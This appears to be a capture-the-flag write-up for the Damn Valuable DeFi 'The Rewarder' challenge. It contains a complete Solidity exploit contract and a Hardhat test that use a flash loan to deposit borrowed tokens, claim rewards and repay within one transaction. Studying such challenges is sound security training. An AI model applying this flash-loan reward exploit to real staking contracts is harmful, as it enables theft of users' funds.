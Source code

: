 # The Rewarder

## Analysis
Need to understand the relationship between the tokens and the pools. 

`FlashLoanerPool` allows flashloaning of the `DamnValuableToken` but to smart contracts not users
`AccountingToken` is pegged to the `DamnValuableToken`
`TheRewarderPool` rewards any depositor every 5 days proportional to their deposits. It accepts `DamnValuableToken`
`RewardToken` This is the token used to reward depositors.

## Problem
The flash loan tokens can be used to claim rewards

## Exploit
```sol
// ExploitTheRewarder.sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../the-rewarder/FlashLoanerPool.sol";
import "../the-rewarder/TheRewarderPool.sol";
import "../the-rewarder/RewardToken.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";


contract ExploitTheRewarder {
    using Address for address payable;

    // Receiver needs to know the pool it is receiving from
    FlashLoanerPool private immutable pool;
    DamnValuableToken private immutable dvt;
    TheRewarderPool private immutable rewarder;
    RewardToken private immutable rewardtoken;

    // attacker
    address private immutable owner;

    constructor(address payable dvtAddress,
                address payable poolAddress,
                address payable rewarderAddress,
                address payable reward) {
        pool = FlashLoanerPool(poolAddress);
        dvt = DamnValuableToken(dvtAddress);
        rewarder = TheRewarderPool(rewarderAddress);
        rewardtoken = RewardToken(reward);
        owner = msg.sender;
    }

    function exploit() public payable {

        require(msg.sender == owner);

        // interact with the pool, calling the flashLoan will cause
        // the receiveFlashloan routine to be invoked
        pool.flashLoan(1000000 ether);

    }

    function receiveFlashLoan(uint256 amount) public payable {
        // make a deposit of the received funds to trigger receiving of rewards token
        dvt.approve(address(rewarder), amount);
        rewarder.deposit(amount);
        // withdraw the tokens from rewards
        rewarder.withdraw(amount);
        // and return it to the pool
        dvt.transfer(address(pool), amount);       
        uint256 reward_amount = rewardtoken.balanceOf(address(this));
        // transfer the received rewards to attacker EOA from attacker contract
        rewardtoken.transfer(owner, reward_amount);
    }
}
```

```js
...
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const ExploitTheRewarderFactory = await ethers.getContractFactory("ExploitTheRewarder",
         attacker);
        const ExploitTheRewarder = await ExploitTheRewarderFactory.deploy(
            this.liquidityToken.address,
            this.flashLoanPool.address,
            this.rewarderPool.address,
            this.rewardToken.address);

        // wait 5 days so that contributing will trigger rewards
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 day
        
        // connect to the exploit contract and trigger the exploit
        ExploitTheRewarder.connect(attacker).exploit();

    });
...
```

## Explanation
1. Borrow all the DVT tokens from the flashpool using a smartcontract owned by attacker
2. Deposit them and receive rewards to the attacker smartcontract
3. Since the objective of the task is to claim rewards for the attacker, transfer the received rewards from the attacker smart contract
4. Withdraw the deposited DVT tokens and return them to the flashpool.
